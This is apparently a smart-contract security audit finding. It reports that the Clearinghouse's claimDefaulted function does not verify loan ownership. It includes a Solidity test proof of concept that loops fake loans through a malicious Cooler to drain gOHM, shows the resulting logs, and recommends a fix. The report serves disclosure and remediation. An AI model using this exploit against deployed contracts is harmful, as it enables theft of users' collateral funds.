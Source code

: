 Brave Charcoal Ferret

high

# Malicious user can steal `gOHM` in `ClearingHouse` and also burn.
## Summary

## Vulnerability Detail
`ClearingHouse.claimDefaulted` serves to reclaim a defaulted loan.

However, it does not check to see if the loan was used by the `ClearingHouse`.

Therefore, it is possible to create a malicious Cooler via `CoolerFactory` and default it to steal `gOHM` and burn `gOHM` used as collateral in the `ClearingHouse's` loans, resulting in a loss for the borrower. 

POC:
```solidity
    function testMalCooler() public {
        address malUser = address(0xbad);
        MockERC20 tokenA = new MockERC20("A", "A", 18);
        MockERC20 tokenB = new MockERC20("B", "B", 18);

        tokenA.mint(malUser, type(uint256).max);
        tokenB.mint(malUser, type(uint256).max);

        // Assuming gOHM exists in the clearinghouse 
        gohm.mint(address(clearinghouse), 1000e18);
        // unstaked gOHM exists already in the clearinghouse 
        ohm.mint(address(clearinghouse), 1000e18);
        uint256 balBefore = gohm.balanceOf(address(malUser));
        console.log("before gOHM Balance", balBefore);

        vm.startPrank(malUser);
        Cooler malCooler = Cooler(factory.generateCooler(tokenA, tokenB));

        tokenA.approve(address(malCooler), type(uint256).max);
        tokenB.approve(address(malCooler), type(uint256).max);


        uint256[] memory ids = new uint256[](300);
        address[] memory coolers = new address[](300);

        for(uint256 i = 0;i<300;i++) {
            coolers[i] = address(malCooler);
            ids[i] = i;
            malCooler.requestLoan(2e18, 0, 1e18, 0);
            malCooler.clearRequest(i, false, false);
            skip(7 days);
        }

        clearinghouse.claimDefaulted(coolers, ids);
        uint256 balAfter = gohm.balanceOf(address(malUser));
        console.log("after gOHM Balance", balAfter);
    }
```
Result:
```solidity
Logs:
  before gOHM Balance 0
  after gOHM Balance 30000000000000000000
```

## Impact
Malicious user can steal `gOHM` in `ClearingHouse` and also burn.
## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L191-L245
## Tool used

Manual Review

## Recommendation
Mapping the cooler and loan used in `ClearingHouse`, save it, and check it in `claimDefaulted`.